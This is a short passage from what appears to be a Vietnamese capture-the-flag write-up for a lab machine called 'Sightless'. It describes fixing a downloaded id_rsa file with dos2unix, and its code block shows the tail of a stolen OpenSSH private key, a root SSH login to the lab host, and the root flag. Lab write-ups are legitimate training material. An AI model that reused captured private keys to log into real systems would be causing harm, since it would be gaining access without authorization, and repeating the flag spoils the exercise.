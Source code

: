 File `id_rsa` sau khi tải về thì ở cuối thiếu dấu xuống dòng và phải dùng `dos2unix` để convert sang Unix format, từ đó mới sử dụng để ssh được:

```
❯ dos2unix id_rsa
dos2unix: converting file id_rsa to Unix format...
❯ tail id_rsa
uVmkDYBHxpjscG0Z11ngNu89YhWmDZfu38sfEcV828cHUW2JJJ/WibCCzGRhG4K1gLTghL
L+/cNo97CK/6XHaEhEOHE5ZWvNR6SaiGzhUQzmz9PIGRlLX7oSvNyanH2QORwocFF0z1Aj
+6dwxnESdflQcAAAEBAPG196zSYV4oO75vQzy8UFpF4SeKBggjrQRoY0ExIIDrSbJjKavS
0xeH/JTql1ApcPCOL4dEf3nkVqgui5/2rQqz901p3s8HGoAiD2SS1xNBQi6FrtMTRIRcgr
46UchOtoTP0wPIliHohFKDIkXoglLtr8QBNBS7SEI+zTzlPVYZNw8w0fqcCh3xfjjy/DNm
9KlxLdjvS21nQS9N82ejLZNHzknUb1fohTvnnKpEoFCWOhmIsWB9NhFf7GQV1lUXdcRy1f
ojHlAvysf4a4xuX72CXMyRfVGXTtK3L18SZksdrg0CAKgxnMGWNkgD6I/M+EwSJQmgsLPK
tLfOAdSsE7MAAAASam9obkBzaWdodGxlc3MuaHRiAQ==
-----END OPENSSH PRIVATE KEY-----

❯ ssh -i id_rsa root@10.10.11.32
Last login: Tue Sep  9 14:53:13 2025 from 10.10.14.32
root@sightless:~# cat root.txt 
c8b39c579d5ed6e9a81f1fb1f238e7fb
root@sightless:~# 
```






